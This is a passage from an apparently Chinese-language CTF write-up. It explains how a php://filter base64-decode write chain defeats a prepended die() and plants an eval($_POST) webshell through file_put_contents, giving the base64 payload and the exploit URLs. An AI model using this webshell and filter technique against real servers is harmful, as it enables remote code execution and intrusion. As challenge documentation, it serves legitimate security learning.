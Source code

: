 ```
}
```

在类似于前面上传之后，请求对应的id
```
http://464e9b54c7a12250a.jie.sangebaimao.com/index.php?download=4101&filename=upload/test
```
get!

# php://filter/write配合file_put_contents getshell #

仔细分析上面的代码，发现核心逻辑在
```
$devalContents = "<?php die; ?>\n"; 
		$devalContents .= base64_decode($row['content']);
		file_put_contents("$filename",$devalContents);
		$filename = str_replace("upload/",'',$filename);
		header("location:upload/".urlencode($filename));
```

配合hint2简直蒙蔽。。。

分析逻辑感觉问题还是在file_put_contents

无意中找到了这篇文章

[http://www.myhack58.com/Article/html/3/7/2011/30898.htm](http://www.myhack58.com/Article/html/3/7/2011/30898.htm)

一下打通了任督二脉。。。

只要传入shell的base64，然后解码，前面的die就会解成乱码，然后getshell

尝试
```
PD9waHAgZWNobyAyMzM7IGV2YWwoJF9QT1NUWydzcyddKTsgPz4=
```
payload
```
http://464e9b54c7a12250a.jie.sangebaimao.com/upload/php://filter/write=convert.base64-decode/resource/resource=upload/ddog.php
```
咦？乱码了。。。

想了一会儿才想起来base64有padding，如果长度不对就会解成乱码，那就python尝试一下吧...

最终文件内容
```
ssPD9waHAgZWNobyAyMzM7IGV2YWwoJF9QT1NUWydzcyddKTsgPz4=
```
payload
```
http://464e9b54c7a12250a.jie.sangebaimao.com/upload/php://filter/write=convert.base64-decode/resource/resource=upload/ddog.php
```

getshell....